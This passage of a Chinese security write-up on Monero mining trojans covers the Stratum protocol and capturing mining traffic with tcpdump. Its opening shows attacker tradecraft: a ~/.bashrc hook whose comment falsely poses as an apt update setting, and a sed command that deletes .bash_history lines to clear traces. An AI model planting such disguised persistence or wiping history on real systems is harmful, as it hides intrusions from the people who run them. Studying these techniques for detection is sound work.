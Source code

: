 追加进 `~/.bashrc` 文件

```php
#enable software update with apt
#See /etc/apt/source.d/ in the apt package.
if [ -f /etc/update-manager/release-upgrade ]; then
    . /etc/update-manager/release-upgrade
fi

```

清理痕迹
----

```php
nl .bash_history

sed -i '10,$d' .bash_history
```

XMR挖矿流量分析
=========

Stratum 协议
----------

矿池一般采用 Stratum 协议与挖矿主机进行交互通信，Stratum 协议是基于 JSON-RPC 2.0 封装的 TCP 通讯协议，在挖矿主机和矿池的交互过程中支持挖矿主机登记、任务下发、账号登录、结果提交和挖矿任务难度调整这五种行为。

XMR 挖矿流量分析
----------

由于比特币主机挖矿效益与投入比的不断降低，使得攻击者转向更具挖矿效率优势的门罗币。门罗币可以使用 CPU 或 GPU 进行挖矿，具有隐蔽性强，灵活性高等特点，是挖矿木马的首选，平常实际遇见的挖矿木马挖取的加密货币也几乎都是门罗币。

**其采用 jsonrpc 数据样例的格式进行通信**

### 安装 tcpdump

```php
apt-get install tcpdump
```

### 捕获数据包

捕获前 10000 个经过 ens 33 接口的数据包：

```php
tcpdump -i ens33 -c 10000 -nn -w xmr_capture.pcap
```

### 过滤分析

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-731a31810aa781b6cd2c26069f6e4d92919472cb.png)

XMR 采用 Cryptonight 算法作为其工作量证明的哈希函数。当使用 XMRig 进行挖矿时，他所采用的 CryptoNight 算法可能会产生较多的网络流量，因为它需要频繁地与矿池通信以获取新的挖矿任务。各种挖矿程序在使用 Stratum 协议的数据格式都会稍有不同，包括 XMRig。但是它们都遵循 JSON-RPC 2.0 的规范。
